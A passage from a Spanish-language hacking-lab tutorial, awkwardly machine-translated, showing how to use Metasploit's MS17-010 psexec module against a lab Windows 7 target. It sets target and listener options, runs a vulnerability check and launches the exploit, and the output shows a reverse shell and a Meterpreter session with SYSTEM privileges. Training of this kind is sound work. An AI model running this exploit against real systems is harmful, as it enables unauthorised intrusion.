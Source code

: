 ```shell-session
   SMBUser                                                                               no        The username to authenticate as

...SNIP...
```

Cualquier opción con`Required`empezar a`yes`debe establecerse para que la exploit funcione. En este caso, solo tenemos dos opciones para establecer:`RHOSTS`, lo que significa la IP de nuestro objetivo (esta puede ser una IP, múltiples IP o un archivo que contiene una lista de IPS). La segunda opción,`LHOST`, representa la IP de nuestro host de ataque (esta puede ser una sola IP, o el nombre de una interfaz de red. En el ejemplo a continuación,`LHOST`se está configurando en la IP asociada con nuestro`tun0`interfaz.) Podemos configurarlos con el`set`dominio:

  Exploits públicos

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```

Una vez que tenemos ambas opciones establecidas, podemos comenzar la explotación. Sin embargo, antes de ejecutar el script, podemos ejecutar un cheque para asegurarnos de que el servidor sea vulnerable:

  Exploits públicos

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```

Como podemos ver, el servidor es realmente vulnerable. Tenga en cuenta que no todos los exploit en el`Metasploit Framework`apoya el`check`función. Finalmente, podemos usar el`run`o`exploit`comandar ejecutar el exploit:

  Exploits públicos

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
```